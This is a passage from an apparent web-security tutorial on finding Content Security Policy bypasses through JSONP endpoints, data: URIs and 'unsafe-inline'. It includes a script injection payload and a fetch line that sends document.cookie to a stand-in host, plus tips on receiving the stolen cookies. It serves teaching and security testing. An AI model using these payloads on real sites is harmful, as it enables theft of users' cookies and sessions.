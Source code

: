 

Note that if you serve JSONP endpoints on your website, you may need to take additional precautions. If you're not sure whether you serve JSONP endpoints or not, you probably don't.


# Bypassing a Content Security Policy
Since we now know how to create content security policies, let's learn how to find bypasses for them.

If you're looking for a quick way to check if your policy has any potential bypass vectors in it, I would recommend using Google's CSP Evaluator. It's able to detect various mistakes in any CSP configuration.



JSONP endpoints

﻿Some sites may serve JSONP endpoints which call a JavaScript function in their response. If the callback function of these can be changed, they could be used to bypass the CSP and demonstrate a proof of concept, such as displaying an alert box or potentially even exfiltrating sensitive information from the client such as cookies or authentication tokens. A lot of popular websites serve JSONP endpoints, which can be usually used to bypass a security policy on a website that uses their services. The JSONBee repo lists a good amount of the currently available JSONP endpoints that can be used to bypass a website's security policy.

Unsafe CSP configurations

Some sites may allow loading of resources from unsafe sources, for example by allowing data: URIs or using the 'unsafe-inline' source. For example, if a website allows loading scripts from data: URIs, you can simply bypass their policy by moving your payload to the src attribute of the script, like so: <script src="data:application/javascript,alert(1)"></script>



﻿Exfiltration

﻿To exfiltrate sensitive information, your client needs to connect to a webserver you control. For our purposes, we can use a free service such as Beeceptor to receive the information via the path of the request. If you have access to a paid service such as Burp Collaborator, you can use this instead.

If you prefer running a web server for exfiltration locally, you can set up a simple HTTP server using python by running python -m SimpleHTTPServer or python3 -m http.server.

If the website you're exploiting allows AJAX requests (via connect-src) to anywhere, you can create a fetch request to your server like so:

<script>fetch(`http://example.com/${document.cookie}`)</script>

When the script is triggered on the victim's machine, you'll see their cookies show up in your access log, like so:





If you found an XSS vulnerability and bypassed CSP, but can't leak any information with it via XHR requests or fetch, the connect-src policy may be blocking your requests. This can be bypassed if the website you're exploiting doesn't have strict settings for directives such as image-src and media-src, which can be abused to leak information.
